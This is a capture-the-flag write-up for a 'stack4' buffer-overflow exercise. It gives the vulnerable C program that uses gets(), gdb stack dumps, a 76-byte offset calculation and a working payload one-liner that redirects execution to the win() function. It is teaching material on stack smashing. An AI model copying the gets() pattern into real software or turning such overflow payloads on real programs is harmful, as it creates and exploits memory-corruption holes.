 # STACK 4

## SOURCE CODE

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv) 	// we'll overwrite the return value of main function
{
  char buffer[64];

  gets(buffer);  					// vuln is here, gets function does not limit size of input
}
```

## IDEA

- The idea is change the return address of main function to address of win function, so when main function finished, it will return to win function instead of return to the function that called the main function.

## DETAIL

- 0x080483f4 is win address, this address will be "\xf4\x83\x04\x08" in payload

- We can find the return address of main function when we run inside main function, it's on top of stack: 0xb7eadc76, this is because we have not push ebp yet or do something inside main function.

```
				(gdb) x/50xw$esp
				0xbffffcbc:     0xb7eadc76      0x00000001      0xbffffd64      0xbffffd6c
				0xbffffccc:     0xb7fe1848      0xbffffd20      0xffffffff      0xb7ffeff4
				0xbffffcdc:     0x0804824b      0x00000001      0xbffffd20      0xb7ff0626
							          .....
```

- And we has ebp's value of the function that call the main function:

```
				(gdb) info registers
				eax            0xbffffd64       -1073742492
				ecx            0xf04f1569       -263252631
				edx            0x1              1
				ebx            0xb7fd7ff4       -1208123404
				esp            0xbffffcbc       0xbffffcbc
				ebp            0xbffffd38       0xbffffd38
							
````

- So address of return address is 0xbffffcbc, we will enter some input to find where "buffer" variable write on stack, and then we calculate the distance to overwrite.

```
				aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
				16      in stack4/stack4.c
				0x0804841d <main+21>:    c9     leave
				0x0804841e <main+22>:    c3     ret
				(gdb) x/50xw$esp
				0xbffffc60:     0xbffffc70      0xb7ec6165					0xbffffc78				0xb7eada75

	start ->                0xbffffc70:     0x61616161      0x61616161					0x61616161				0x61616161
				0xbffffc80:     0x61616161      0x61616161					0x61616161				0x61616161
				0xbffffc90:     0x61616161      0x61616161					0x61616161				0x61616161
				0xbffffca0:     0x61616161      0x61616161					0x61616161				0x61616161   <- end 
				0xbffffcb0:    (0x08048400      0x00000000)	<- padding 		        0xbffffd38 <- (ebp)		        0xb7eadc76   <- this is ret

				0xbffffcc0:     0x00000001      0xbffffd64					0xbffffd6c				0xb7fe1848
														......
```

- This challenge has some difference from stack3 challenge, the distance between "buffer" variable and return address of main function is not sizeof(buffer) + sizeof(stack), we have some extra space for padding, I don't have much understand about that, but when I debug this program, I see it has 2*4 bytes for padding.

- So, we have to overwrite:
	+ 64 bytes for buffer
	+ 4 bytes for ebp reservation on stack
	+ 8 bytes for padding
	> total we have to overwrite 64 + 4 + 8 = 76 bytes to reach to return address of main function

- He he, Let's make a payload to exploit this :3

## EXPLOIT

- Payload:

```
		python -c 'print("a"*76 + "\xf4\x83\x04\x08")' | ./stack4
```

## RESULT
		$ python -c 'print("a"*76 + "\xf4\x83\x04\x08")' | ./stack4
		code flow successfully changed
		Segmentation fault
